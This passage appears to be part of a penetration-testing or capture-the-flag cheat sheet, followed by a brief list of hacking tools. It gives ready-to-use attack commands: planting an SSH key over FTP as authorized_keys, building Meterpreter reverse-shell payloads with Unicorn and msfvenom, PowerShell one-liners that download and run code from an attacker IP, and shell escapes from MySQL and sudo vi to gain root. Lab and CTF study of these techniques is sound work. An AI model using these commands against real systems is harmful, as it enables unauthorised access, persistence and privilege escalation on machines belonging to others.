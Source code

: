   ```
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> put id_rsa.pub
  ftp> rename id_rsa.pub authorized_keys
  ```
  * To get Shell on Windows use [Unicorn](https://github.com/trustedsec/unicorn.git)
  ```
  root# /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
  [*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
  root# msfconsole -r unicorn.rc 
  [*] Started reverse TCP handler on <HOST_IP>:3333 
  msf5 exploit(multi/handler) > 
  ```
  * To get Better Shell on windows:
  ```
  Once a basic command shell has been obtained, it can be elevated to a Meterpreter shell    bygenerating an executable  payload with the command `msfvenom -p windows/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f exe > writeup.exe` and then downloaded on the target with the command `powershell "(new-object   System.Net.WebClient).Downloadfile('http://<IP>/writeup.exe', 'writeup.exe')"`   Once a full Meterpreter shell has been obtained, it is a good idea to migrate to a process with the correct architecture. In this case jrunsvc.exe will work. Running local_exploit_suggester in 64-bit mode reveals only one suggestion; `exploit/windows/local/ms10_092_schelevator` . Running the module immediately grants an elevated Meterpreter session.
  ```
  * Windows Enumeration Script:
  ```
  PS C:\Users\L4mpje\Desktop> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:8000/jaws-enum.ps1')       

  Running J.A.W.S. Enumeration                                                                                           
                
  ```
  * Get Shell from MYSQL
  ```
  mysql> \! /bin/sh
  ```
  * To get Root from VI
  ```www-data@enemy:/home/haris$ sudo /usr/bin/vi /var/www/html/../../../root/root.txt ```
  or
  ```www-data@enemy:/home/haris$ sudo /usr/bin/vi /var/www/html/anyrandomFile
  Type Escape and enter :!/bin/bash
  ```
  * Use [Pspy](https://github.com/DominicBreuker/pspy) for Getting information on cron, proceses etc

# Tools
* Total Commander - multi purpose terminal for Hacking. Link : www.ghisler.com
* CTF Exploitation Framework : Github.com/Gallopsled/pwntools `pip install pwntools`
* When using GDB, we can create "~/.gdbinit" file and add this line "set disassembly-flavor intel" to make intel synatx.
* Dirbuster for enumeration web server Attacks.
